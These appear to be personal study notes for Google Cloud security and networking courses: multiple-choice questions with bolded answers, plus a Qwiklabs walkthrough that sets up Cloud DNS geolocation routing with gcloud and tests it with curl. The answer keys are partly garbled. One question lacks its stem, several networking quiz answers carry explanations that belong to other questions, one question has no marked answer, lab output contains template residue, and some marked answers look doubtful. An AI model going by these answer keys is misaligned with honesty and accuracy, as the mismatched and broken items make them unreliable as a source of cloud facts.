- **Create a Dockerfile with a container definition and a Cloud Build configuration file. Use the Cloud Build configuration file to build and deploy the image from Dockerfile to a Google Container registry. In the configuration file, include the Google Container Registry path and the Google Kubernetes Engine cluster. Upload the configuration file to a Git repository. Create a trigger in Cloud Build to automate the deployment using the Git repository.**

- Build a foundation image. Store all artifacts and a Packer definition template in a Git repository. Use Container Registry to build the artifacts and Packer definition. Use Cloud Build to extract the built container and deploy it to a Google Kubernetes Engine (GKE) cluster. Add the required users and groups to the GKE project.

- Build an immutable image. Store all artifacts and a Packer definition template in a Git repository. Use Container Registry to build the artifacts and Packer definition. Use Cloud Build to extract the built container and deploy it to a Google Kubernetes Engine Cluster (GKE). Add the required users and groups to the GKE project.

3. Cymbal Bank runs a Node.js application on a Compute Engine instance. Cymbal Bank needs to share this base image with a ‘development’ Google Group. This base image should support secure boot for the Compute Engine instances deployed from this image. How would you automate the image creation?

- **Prepare a shell script. Add the command gcloud compute instances stop with the Node.js instance name. Set up certificates for secure boot. Add gcloud compute images create, and specify the Compute Engine instance’s persistent disk and zone and the certificate files. Add gcloud compute images add-iam-policy-binding and specify the ‘development’ group.**

- Prepare a shell script. Add the command gcloud compute instances start to the script to start the Node.js Compute Engine instance. Set up Measured Boot for secure boot. Add gcloud compute images create, and specify the persistent disk and zone of the Compute Engine instance.

- Start the Compute Engine instance. Set up certificates for secure boot. Prepare a cloudbuild.yaml configuration file. Specify the persistent disk location of the Compute Engine and the ‘development’ group. Use the command gcloud builds submit --tag, and specify the configuration file path and the certificates.

- Stop the Compute Engine instance. Set up Measured Boot for secure boot. Prepare a cloudbuild.yaml configuration file. Specify the persistent disk location of the Compute Engine instance and the ‘development’ group. Use the command gcloud builds submit --tag, and specify the configuration file path.

4. Cymbal Bank has suffered a remote botnet attack on Compute Engine instances in an isolated project. The affected project now requires investigation by an external agency. An external agency requests that you provide all admin and system events to analyze in their local forensics tool. You want to use the most cost-effective solution to enable the external analysis. What should you do?

- Use Cloud Monitoring and Cloud Logging. Filter Cloud Monitoring to view only system and admin logs. Expand the system and admin logs in Cloud Logging. Use Pub/Sub to export the findings from Cloud Logging to the external agency’s forensics tool or storage.

- Use Event Threat Detection. Trigger the IAM Anomalous Grant detector to detect all admins and users with admin or system permissions. Export these logs to the Security Command Center. Give the external agency access to the Security Command Center.

- **Use Cloud Audit Logs. Filter Admin Activity audit logs for only the affected project. Use a Pub/Sub topic to stream the logs from Cloud Audit Logs to the external agency’s forensics tool.**

- Use the Security Command Center. Select Cloud Logging as the source, and filter by category: Admin Activity and category: System Activity. View the Source property of the Finding Details section. Use Pub/Sub topics to export the findings to the external agency’s forensics tool.

5. Set an organization-level policy that  requires all Compute Engine VMs to be configured as Shielded VMs. Use  Measured Boot enabled with Virtual Trusted Platform Module (vTPM).  Validate integrity events in Cloud Monitoring and place alerts on late  boot validation events.

- Set an organization-level policy that requires all Compute Engine VMs to be configured as Shielded VMs. Use Secure Boot enabled with Unified Extensible Firmware Interface (UEFI). Validate integrity events in Cloud Monitoring and place alerts on launch attestation events.

- **Set an organization-level policy that requires all Compute Engine VMs to be configured as Shielded VMs. Use Measured Boot enabled with Virtual Trusted Platform Module (vTPM). Validate integrity events in Cloud Monitoring and place alerts on late boot validation events.**

- Set Cloud Logging measurement policies on the VMs. Use Cloud Logging to place alerts whenever actualMeasurements and policyMeasurements don’t match.

- Set project-level policies that require all Compute Engine VMs to be configured as Shielded VMs. Use Measured Boot enabled with Virtual Trusted Platform Module (vTPM). Validate integrity events in Cloud Monitoring and place alerts on late boot validation events.

6. Cymbal Bank has Docker applications deployed in Google Kubernetes Engine. The bank has no offline containers. This GKE cluster is exposed to the public internet and has recently recovered from an attack. Cymbal Bank suspects that someone in the organization changed the firewall rules and has tasked you to analyze and find all details related to the firewall for the cluster. You want the most cost-effective solution for this task. What should you do?

- **View the GKE logs in Cloud Logging. Use the log scoping tool to filter the Firewall Rules log. Create a dataset in BigQuery to accept the logs. Export the logs to BigQuery using the command gcloud logging sinks create. Query this dataset.**

- View the GKE logs in the local GKE cluster. Use the kubectl Sysdig Capture tool to filter the Firewall Rules log. Create a Pub/Sub topic. Export these logs to a Pub/Sub topic using the GKE cluster. Use Dataflow to read from Pub/Sub and query the stream.

- View the GKE logs in the local GKE cluster. Use Docker-explorer to explore the Docker file system. Filter and export the Firewall logs to Cloud Logging. Create a dataset in BigQuery to accept the logs. Use the command gcloud logging sinks create to export the logs to a BigQuery dataset. Query this dataset.

- View the GKE logs in Cloud Logging. Use the log scoping tool to filter the Firewall Rules log. Create a Pub/Sub topic. Export the logs to a Pub/Sub topic using the command gcloud logging sinks create. Use Dataflow to read from Pub/Sub and query the stream.

7. Cymbal Bank has received Docker source files from its third-party developers in an Artifact Registry repository. These Docker files will be part of a CI/CD pipeline to update Cymbal Bank’s personal loan offering. The bank wants to prevent the possibility of remote users arbitrarily using the Docker files to run any code. You have been tasked with using Container Analysis’ On-Demand scanning to scan the images for a one-time update. What should you do?

- **Prepare a cloudbuild.yaml file. In this file, add four steps in order—build, scan, severity check, and push—specifying the location of Artifact Registry repository. Specify severity level as CRITICAL. Start the build with the command gcloud builds submit.**

- Prepare a cloudbuild.yaml file. In this file, add four steps in order—scan, severity check, build, and—push specifying the location of the Artifact Registry repository. Specify severity level as HIGH. Start the build with the command gcloud builds submit.

- Prepare a cloudbuild.yaml file. In this file, add four steps in order—scan, build, severity check, and push—specifying the location of the Artifact Registry repository. Specify severity level as HIGH. Start the build with the command gcloud builds submit.

- Prepare a cloudbuild.yaml file. In this file, add four steps in order—build, severity check, scan, and push—specifying the location of the Artifact Registry repository. Specify severity level as CRITICAL. Start the build with the command gcloud builds submit.

8. Cymbal Bank experienced a recent security issue. A rogue employee with admin permissions for Compute Engine assigned existing Compute Engine users some arbitrary permissions. You are tasked with finding all these arbitrary permissions. What should you do to find these permissions most efficiently?

- Use Event Threat Detection and trigger the IAM Anomalous Grant detector. Publish results to Cloud Logging. In the Security Command Center, select Cloud Logging as the source, filter by category: anomalies, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.

- Use Event Threat Detection and configure Continuous Exports to filter and write only Firewall logs to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by category: anomalies, and sort to find the attack time window. Click on Evasion: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.

- **Use Event Threat Detection and trigger the IAM Anomalous grants detector. Publish results to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by category: iam, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.**

- Use Event Threat Detection and configure Continuous Exports to filter and write only Firewall logs to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by evasion: Iam, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.

9. Cymbal Bank wants to use Cloud Storage and BigQuery to store safe deposit usage data. Cymbal Bank needs a cost-effective approach to auditing only Cloud Storage and BigQuery data access activities. How would you use Cloud Audit Logs to enable this analysis?

- Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE at the service level for BigQuery and Cloud Storage.

- Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE at the organization level.

- Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE for BigQuery. All Data Access Logs are enabled for Cloud Storage by default.

- **Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE for Cloud Storage. All Data Access Logs are enabled for BigQuery by default.**

10. Cymbal Bank uses Compute Engine instances for its APIs, and recently discovered bitcoin mining activities on some instances. The bank wants to detect all future mining attempts and notify the security team. The security team can view the Security Command Center and Cloud Audit Logs. How should you configure the detection and notification?

- Enable the VM Manager tools suite in the Security Command Center. Perform a scan of Compute Engine instances. Publish results to Cloud Audit Logging. Create an alert in Cloud Monitoring to send notifications of suspect activities.

- Enable the Web Security Scanner in the Security Command Center. Perform a scan of Compute Engine instances. Publish results to Cloud Audit Logging. Create an alert in Cloud Monitoring to send notifications for suspect activities.

- Use Event Threat Detection’s threat detectors. Export findings from ‘Suspicious account activity’ and ‘Anomalous IAM behavior’ detectors and publish them to a Pub/Sub topic. Create a Cloud Run function to send notifications of suspect activities. Use Pub/Sub notifications to invoke the Cloud Run function.

- **Enable Anomaly Detection in the Security Command Center. Create and configure a Pub/Sub topic and an email service. Create a Cloud Run function to send email notifications for suspect activities. Export findings to a Pub/Sub topic, and use them to invoke the Cloud Run function.**

### Knowledge Check

1. Which feature of Google Cloud will Cymbal Bank use to prevent unauthorized container images from being deployed into production environments?

- Cloud Build
- **Binary Authorization**
- Cloud Monitoring
- Audit logs

Correct. Binary Authorization provides a system for applying  attestations to container images to prevent unauthorized container  images from being deployed into infrastructure.

2. How will Cymbal Bank be able to determine who performed a particular administrative action and when?
- Cloud Monitoring
- **Audit logs**
- VPC service controls
- VPC flow logs

Correct. Audit logs include a capture of all administrative actions,  including the identity making the request and when it occurred.


## Supporting Compliance Requirements

### Diagnostic questions

1. Cymbal Bank’s Insurance Analyst needs to collect and store anonymous protected health information of patients from various hospitals. The information is currently stored in Cloud Storage, where each hospital has a folder that contains its own bucket. You have been tasked with collecting and storing the healthcare data from these buckets into Cymbal Bank’s Cloud Storage bucket while maintaining HIPAA compliance. What should you do?

- **Use the Cloud Healthcare API to read the data from the hospital buckets and use de-identification to redact the sensitive information. Use Dataflow to ingest the Cloud Healthcare API feed and write data in a new Project that contains the Cloud Storage bucket. Give the Insurance Analyst the ‘Editor’ role on this Project.**

- Create a new folder. Create a new Cloud Storage bucket in this folder. Give the Insurance Analyst the ‘Editor’ role on the new folder. Collect all hospital data in this bucket. Use the Google Cloud Healthcare Data Protection Toolkit to monitor this bucket.

- Create a new Project. Use the Google Cloud Healthcare Data Protection Toolkit to set up a collection bucket, monitoring alerts, audit log sinks, and Forseti monitoring resources. Use Dataflow to read the data from source buckets and write to the new collection buckets. Give the Insurance Analyst the ‘Editor’ role on the collection bucket.

- Create a new Project. Create a new Cloud Storage bucket in this Project with customer-supplied encryption keys (CSEK). Give the Insurance Analyst the ‘Reader’ role on the Project that contains the Cloud Storage bucket. Use the DLP API to find and mask personally identifiable information (PII) data to comply with HIPAA.

2. You are a cloud engineer at Cymbal Bank. You need to share the auditing and compliance standards with your CTO that cover controls over financial reporting and both public and private controls over security, availability, and confidentiality. Which compliance standard covers this?

- **SOX**

- FIPs 140-2

- GDPR

- PCI-DSS

3. Cymbal Bank plans to launch a new public website where customers can pay their equated monthly installments (EMI) using credit cards. You need to build a secure payment processing solution using Google Cloud which should follow the PCI-DSS isolation requirements. How would you architect a secure payment processing environment with Google Cloud services to follow PCI-DSS? (Select the two correct choices)

- Deploy an Ubuntu Compute Engine instance. Install the libraries needed for payment solutions and encryption/decryption. Deploy using Terraform.

- Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Create a new Compute Engine instance and configure firewall rules, a VPN tunnel, and an internal load balancer.

- Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Configure firewall rules, a VPN tunnel, and a proxy Network Load Balancer for a new App Engine flexible environment.

- **Deploy a Linux base image from preconfigured operating system images. Install only the libraries you need. Deploy using Terraform.**

- **Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Configure firewall rules, a VPN tunnel, and an Application Load Balancer for a new Compute Engine instance.**

4. You are designing a web application for Cymbal Bank so that customers who have credit card issues can contact dedicated support agents. Customers may enter their complete credit card number when chatting with or emailing support agents. You want to ensure compliance with PCI-DSS and prevent support agents from viewing this information in the most cost-effective way. What should you do?

- Implement Cloud Data Loss Prevention using its REST API.

- Detect sensitive information with Cloud Natural Language API.

- Use customer-managed encryption keys (CMEK) and Cloud Key Management Service (KMS) to detect and encrypt sensitive information.

- Use customer-supplied encryption keys (CSEK) and Cloud Key Management Service (KMS) to detect and encrypt sensitive information.

5. Cymbal Bank’s lending department stores sensitive information, such as your customers’ credit history, address and phone number, in parquet files. You need to upload this personally identifiable information (PII) to Cloud Storage so that it’s secure and compliant with ISO 27018. How should you protect this sensitive information using Cymbal Bank’s encryption keys and using the least amount of computational resources?

- Generate a customer-managed encryption key (CMEK) using Cloud KMS. Decode it as a base-64 string. Upload the blob to the bucket using this key.

- Generate an RSA key as a 32-byte bytestring. Decode it as a base-64 string. Upload the blob to the bucket using this key.

- Generate a customer-managed encryption key (CMEK) using RSA or AES256 encryption. Decode it as a base-64 string. Upload the blob to the bucket using this key.

- **Generate an AES-256 key as a 32-byte bytestring. Decode it as a base-64 string. Upload the blob to the bucket using this key.**

### Knowledge Check

1. Cymbal Bank has a compliance requirement to have control over key lifecycle and rotation periods. Which Google Cloud feature can they leverage to satisfy that requirement?
- **CMEK with Cloud KMS**
- VPC service controls
- Audit logs
- PCI-DSS compliance

Correct. CMEK with Cloud KMS provides the ability to set key rotation  and lifecycle configuration and select which keys are used for which  data.

2. Cymbal Bank has compliance requirements to ensure certain data is stored, processed, and never transferred or used outside of Europe. Which Google Cloud feature can help them achieve this?
- Audit logs
- **VPC service controls**
- Organization policy constraints
- Sensitive Data Protection

Correct! VPC service controls can be used to restrict access to data to  specific VPCs with subnets in specific regions, and can thereby  facilitate data residency and location-based access requirements.


# 03 Networking in Google Cloud: Fundamentals


## VPC Networking Fundamentals

### Quiz

1. You want to lower cloud networking cost and have no problem leveraging the public internet for cross-region traffic. Which network service tier is best for you?

-  Pro version 
-  Premium tier
-  **Standard tier**
-  Prime tier 
Correct! Most cost-effective, suitable for cost-conscious users willing to use public internet routing.

2. You want to improve network performance. You are not comfortable using the public internet to route traffic. Which service tier is the best fit?
-  Pro version 
-  **Premium tier**
-  Standard tier
-  Prime tier
Correct! Premium Tier improves performance and leverages the Google network
3. You are designing a virtual machine in the cloud to act as a network gateway between an external public network and a private internal network. To ensure strong security and traffic separation, what technology can you implement?
- **Multiple Network Interface Cards (NICs)**
- Cloud VPN
- VLAN tagging within a single NIC
- Premium Tier IPs
Correct! Multiple NICs attached to separate VPC networks achieve the strongest traffic isolation and control for the gateway scenario.

## Sharing VPC Networks

### Quiz

1. Which of the following statements about VPC Network Peering is correct?
- **Transitive peering is not supported.**
- Peered VPC networks do not remain administratively separate.
- Subnet IP ranges can overlap across peered VPC networks.
- Both sides of a peering association are set up in one single step.

This is correct. Shared VPC allows multiple projects to share a common  VPC network, with a centralized host project managing the network  resources.

2. How does VPC Peering exchange routing information between two peered VPCs?
- It relies on the default route table to forward traffic between the VPCs.
- **It automatically discovers and propagates routes through the Google Cloud Router.**
- It uses Border Gateway Protocol (BGP) to dynamically exchange routes.
- It requires manual configuration of static routes in each VPC's route table.

Correct. VPC Peering automatically propagates custom dynamic routes  through the Google Cloud Router, allowing each VPC to learn the routes  of the other peered VPC.

3. Which of the following approaches to multi-project networking uses a centralized network administration model?
- Cloud VPN
- Cloud VPN and Shared VPC
- VPC Network Peering
- **Shared VPC**

This statement is correct. VPC Network Peering establishes a direct  connection between two VPC networks, but it does not extend to other VPC networks they might be peered with.


## Network Monitoring and Logging

### Quiz

1. Sort the following steps for provisioning Shared VPC in Google Cloud:
- **Uptime checks**
- Dashboards
- Ops Agent
- **Alerting policies**

Correct! Alerting policies can email you when your web server cannot be reached.

Correct! Uptime checks test the availability of your web server and allow you to specify alerting policies.

2. In regards to VPC Flow Logs, which of the following statements is correct?
- **Logs can be used for network monitoring, forensics, real-time security analysis, and expense optimization.**
- Logs cannot be analyzed in BigQuery or visualized in Looker Studio.
- Log updates are provided every 5 minutes.
- There is a delay and performance penalty in routing logged IP packets.

Correct! VPC Flow Logs can be used for network monitoring, forensics, real-time security analysis, and expense optimization.


# 04 Networking in Google Cloud: Routing and Addressing

## Network Routing and Addressing in Google Cloud

### Lab - Cloud DNS - Traffic Steering using Geolocation Policy

#### Overview

Cloud DNS routing policies enable users to configure DNS based traffic steering. A user can either create a Weighted Round Robin (WRR) routing policy or a Geolocation (GEO) routing policy. You can configure routing policies by creating special ResourceRecordSets with special routing policy values.

Use WRR to specify different weights per ResourceRecordSet for the resolution of domain names. Cloud DNS routing policies help ensure that traffic is distributed across multiple IP addresses by resolving DNS requests according to the configured weights.

In this lab, you will configure and test the Geolocation routing policy. Use GEO to specify source geolocations and to provide DNS answers corresponding to those geographies. The geolocation routing policy applies the nearest match for the source location when the traffic source location doesn't match any policy items exactly.

#### What you learn

You will learn how to:

1. Launch client VMs, one in each region
2. Launch server VMs, one in each region except asia-south1
3. Create a private zone, for `example.com`
4. Create a Geolocation routing policy using gcloud commands
5. Test the configuration

#### Architecture

Use the default VPC network to create all the virtual machines (VM) and launch client VMs in 3 Google Cloud locations: one in the United States, another in Europe, and another in Asia. To demonstrate the Geolocation routing policy behavior, you will create the server VMs only in two of those location - in the United States and in Europe. The archirtecture will look similar to what is shown in the graphic. (Note that the actual regions and zones within the United States and Europe may differ from those shown in the graphic.)


You will use Cloud DNS routing policies and create `ResourceRecordSets` for geo.example.com and configure the Geolocation policy to help ensure that a client request is routed to a server in the client's closest region.


#### Setup and requirements

#### Before you click the Start Lab button

**Note: Read these instructions.**


Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources will be made available to you.

This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.

#### What you need

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).
- Time to complete the lab.

**Note:** If you already have your own personal Google Cloud account or project, do not use it for this lab.

**Note:** If you are using a Pixelbook, open an Incognito window to run this lab.

#### How to start your lab and sign in to the Console

1. Click the **Start Lab** button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.

   

2. Copy the username, and then click **Open Google Console**. The lab spins up resources, and then opens another tab that shows the **Choose an account** page.

   **Note:** Open the tabs in separate windows, side-by-side.

3. On the Choose an account page, click **Use Another Account**. The Sign in page opens.

   

4. Paste the username that you copied from the Connection Details panel. Then copy and paste the password.

**Note:** You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).

1. Click through the subsequent pages:

- Accept the terms and conditions.
- Do not add recovery options or two-factor authentication (because this is a temporary account).
- Do not sign up for free trials.

After a few moments, the Cloud console opens in this tab.

**Note:** You can view the menu with a list of Google Cloud Products and Services by clicking the **Navigation menu** at the top-left.

#### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```


**Output:**

```
Credentialed accounts:
 - @.com (active)
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```


**Output:**

```
[core]
project = 
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

#### Task 1. Enable APIs

Ensure that the Compute and the Cloud DNS APIs are enabled. In this section, you will enable the APIs manually, using `gcloud` commands.

#### Enable Compute Engine API

- Run the `gcloud services enable` command to enable the Compute Engine API:

```
gcloud services enable compute.googleapis.com
```


This command can take a few minutes to complete.

#### Enable Cloud DNS API

- Run the `gcloud services enable` command to enable the Cloud DNS API:

```
gcloud services enable dns.googleapis.com
```


This command can take a few minutes to complete.

#### Verify that the APIs are enabled

- Run the `gcloud services list` command to list all the enabled APIs. We should see `compute.googleapis.com` and `dns.googleapis.com` in the listed output.

```
gcloud services list | grep -E 'compute|dns'
```


**Output:**

```
NAME: compute.googleapis.com
NAME: dns.googleapis.com
```

#### Task 2. Configure the firewall

Before you create the client VMs and the web servers, you need to create two firewall rules.

**Note:** The `firewall-rules create` command can take a few minutes to complete. Please wait for the "Creating firewall...done" message before proceeding to the next step.

1. To be able to SSH into the client VMs, run the following to create a firewall rule to allow SSH traffic from Identity Aware Proxies (IAP):

```
gcloud compute firewall-rules create fw-default-iapproxy \
--direction=INGRESS \
--priority=1000 \
--network=default \
--action=ALLOW \
--rules=tcp:22,icmp \
--source-ranges=35.235.240.0/20
```


**Output:**

```
Creating firewall...working..Created [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-01-c5d669dffb06/global/firewalls/fw-default-iapproxy].
Creating firewall...done.
NAME: fw-default-iapproxy
NETWORK: default
DIRECTION: INGRESS
PRIORITY: 1000
ALLOW: tcp:22,icmp
DENY:
DISABLED: False
```

1. To allow HTTP traffic on the web servers, each web server will have a "http-server" tag associated with it. You will use this tag to apply the firewall rule only to your web servers:

```
gcloud compute firewall-rules create allow-http-traffic --direction=INGRESS --priority=1000 --network=default --action=ALLOW --rules=tcp:80 --source-ranges=0.0.0.0/0 --target-tags=http-server
```


**Output:**

```
Creating firewall...working..Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/global/firewalls/allow-http-traffic].
Creating firewall...done.
NAME: allow-http-traffic
NETWORK: default
DIRECTION: INGRESS
PRIORITY: 1000
ALLOW: tcp:80
DENY:
DISABLED: False
```

Click *Check my progress* to verify the objective.

Configure the Firewall


#### Task 3. Launch client VMs

Now that the APIs are enabled, and the firewall rules are in place, the next step is to set up the environment. In this section, you will create 3 client VMs, one in each region.

#### Launch a client in the United States

- Run the `gcloud compute instances create` command to create the client VMs:

```
gcloud compute instances create us-client-vm --machine-type=e2-micro --zone "Zone 1"
```


This command can take a few minutes to complete. Please wait for a "Created" message before moving to the next step. Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/us-east1-b/instances/us-client-vm].
NAME: us-client-vm
ZONE: "Zone 1"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.142.0.2
EXTERNAL_IP: 34.138.90.216
STATUS: RUNNING
```

#### Launch a client in Europe

- Run the following to create the client VMs:

```
gcloud compute instances create europe-client-vm --machine-type=e2-micro --zone ""Zone 2""
```


Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/europe-west2-a/instances/europe-client-vm].
NAME: europe-client-vm
ZONE: "Zone 2"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.154.0.2
EXTERNAL_IP: 35.242.164.177
STATUS: RUNNING
```

#### Launch a client in Asia

1. Run the following to create the client VMs:

```
gcloud compute instances create asia-client-vm --machine-type=e2-micro --zone ""Zone 3""
```


Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/asia-south1-a/instances/asia-client-vm].
NAME: asia-client-vm
ZONE: "Zone 3"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.160.0.2
EXTERNAL_IP: 34.93.179.212
STATUS: RUNNING
```

Click *Check my progress* to verify the objective.

Launch client VMs


#### Task 4. Launch Server VMs

Now that the client VM's are up and running, the next step is to create the server VMs. You will use a startup script to configure and set up the web servers. As mentioned earlier, you will create the server VMs only in 2 regions: us-east1 and europe-west2.

- Run the `gcloud compute instances create` command to create the server VMs. The compute instance create command can take a few minutes to complete. Please wait for a "Created" message before moving to the next step.

#### Launch server in the United States

- Run the following command:

```
gcloud compute instances create us-web-vm \
--machine-type=e2-micro \
--zone="Zone 1" \
--network=default \
--subnet=default \
--tags=http-server \
--metadata=startup-script='#! /bin/bash
 apt-get update
 apt-get install apache2 -y
 echo "Page served from: "Region 1"" | \
 tee /var/www/html/index.html
 systemctl restart apache2'
```


Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/us-east1-b/instances/us-web-vm].
NAME: us-web-vm
ZONE: "Zone 1"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.142.0.3
EXTERNAL_IP: 34.73.110.151
STATUS: RUNNING
```

#### Launch server in Europe

- Run the following to command:

```
gcloud compute instances create europe-web-vm \
--machine-type=e2-micro \
--zone="Zone 2" \
--network=default \
--subnet=default \
--tags=http-server \
--metadata=startup-script='#! /bin/bash
 apt-get update
 apt-get install apache2 -y
 echo "Page served from: "Zone 2"" | \
 tee /var/www/html/index.html
 systemctl restart apache2'
```


Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/europe-west2-a/instances/europe-web-vm].
NAME: europe-web-vm
ZONE: "Zone 2"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.154.0.3
EXTERNAL_IP: 35.234.156.62
STATUS: RUNNING
```

Click *Check my progress* to verify the objective.

Launch Server VMs


#### Task 5. Setting up environment variables

Before you configure Cloud DNS, note the Internal IP addresses of the web servers. You need these IPs to create the routing policy. In this section, you will use the `gcloud compute instances describe` command to save the internal IP addresses as environment variables.

1. Command to save IP address for the VM in the United States

```
export US_WEB_IP=$(gcloud compute instances describe us-web-vm --zone="Zone 1" --format="value(networkInterfaces.networkIP)")
```


1. Command to save the IP address for the VM in Europe:

```
export EUROPE_WEB_IP=$(gcloud compute instances describe europe-web-vm --zone="Zone 2" --format="value(networkInterfaces.networkIP)")
```


#### Task 6. Create the private zone

Now that your client and server VMs are running, it's time to configure the DNS settings. Before creating the A records for the web servers, you need to create the Cloud DNS Private Zone.

For this lab, use the `example.com` domain name for the Cloud DNS zone.

- Use the `gcloud dns managed-zones create` command to create the zone:

```
gcloud dns managed-zones create example --description=test --dns-name=example.com --networks=default --visibility=private
```


**Output:**

```
Created [https://dns.googleapis.com/dns/v1/projects/routing-policy-lab/managedZones/example].
```

#### Task 7. Create Cloud DNS Routing Policy

In this section, configure the Cloud DNS Geolocation Routing Policy. You will create a record set in the `example.com` zone that you created in the previous section.

##### Create

- Use the `gcloud dns record-sets create` command to create the geo.example.com recordset:

```
gcloud dns record-sets create geo.example.com \
--ttl=5 --type=A --zone=example \
--routing-policy-type=GEO \
--routing-policy-data=""Region 1"=$US_WEB_IP;"Region 2"=$EUROPE_WEB_IP"
```


You are creating an A record with a Time to Live (TTL) of 5 seconds. The policy type is GEO, and the `routing_policy_data` field accepts a semicolon-delimited list of the format `${region}:${rrdata},${rrdata}`.

**Output:**

```
NAME: geo.example.com.
TYPE: A
TTL: 5
DATA: "filled at lab start": 10.142.0.3; "Region 2": 10.154.0.3
```

##### Verify

- Use the `dns record-sets list` command to verify that the `geo.example.com`DNS record is configured as expected:

```
gcloud dns record-sets list --zone=example
```


The output shows that an A record with a TTL of 5 is created for `geo.example.com`, and the data matches our server set up in each region.

Note that in gcloud, the DATA value under geo.example.com may include United States and Europe regions that differ from the sample output below.

**Output:**

```
NAME: example.com.
TYPE: NS
TTL: 21600
DATA: ns-gcp-private.googledomains.com.

NAME: example.com.
TYPE: SOA
TTL: 21600
DATA: ns-gcp-private.googledomains.com. cloud-dns-hostmaster.google.com. 1 21600 3600 259200 300

NAME: geo.example.com.
TYPE: A
TTL: 5
DATA: "REGION": 10.142.0.3; "Region 2": 10.154.0.3
```

Click *Check my progress* to verify the objective.

Create the Private Zone


#### Task 8. Testing

It's time to test the configuration. In this section, you will SSH into all the client VMs. Since all of the web server VMs are behind the `geo.example.com` domain, you will use `CURL` command to access this endpoint.

Since you are using a Geolocation policy, the expected result is that:

- The client in the US should always get a response from the `<Zone 1` region.
- The client in Europe should always get a response from the `Zone 2` region.

##### Testing from the client VM in Europe

1. Use the `gcloud compute ssh` command to log into the client VM:

```
gcloud compute ssh europe-client-vm --zone "Zone 2" --tunnel-through-iap
```


1. Follow prompts to SSH into the machine. When asked to enter the passphrase, leave the field blank and press the Enter key twice.

Once complete, the command line should change to "`user_name@europe-client-vm:~$`"

**Output:**

```
Warning: Permanently added 'compute.4621780534809863836' (ECDSA) to the list of known hosts.
Linux europe-client-vm 4.19.0-18-cloud-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
user_name@europe-client-vm:~$
```

##### Use `curl` to access the web server

1. Now that you are in the client VM, use the `CURL` command to access the `geo.example.com` endpoint. The loop is configured to run the command ten times with a sleep timer of 6 seconds:

```
for i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
```


Since the TTL on the DNS record is set to 5 seconds, a sleep timer of 6 seconds has been added. The sleep timer will make sure that you get an uncached DNS response for each cURL request. This command will take approximately one minute to complete.

The expected output is "Page served from: `Zone 2`

```
1
Page served from: "Zone 2"
2
Page served from: "Zone 2"
3
Page served from: "Zone 2"
4
Page served from: "Zone 2"
5
Page served from: "Zone 2"
6
Page served from: "Zone 2"
7
Page served from: "Zone 2"
8
Page served from: "Zone 2"
9
Page served from: "Zone 2"
10
Page served from: "Zone 2"
```

1. Run this test multiple times and analyze the output to see which server is responding to the request. The client should always receive a response from a server in the client's region.

##### Getting back to Cloud Shell

- Once you have run the test multiple times, exit the client VM in Europe by typing "`exit`" in the VM's command prompt. This will bring you back to the Cloud Shell console.

##### Testing from the client VM in us-east1

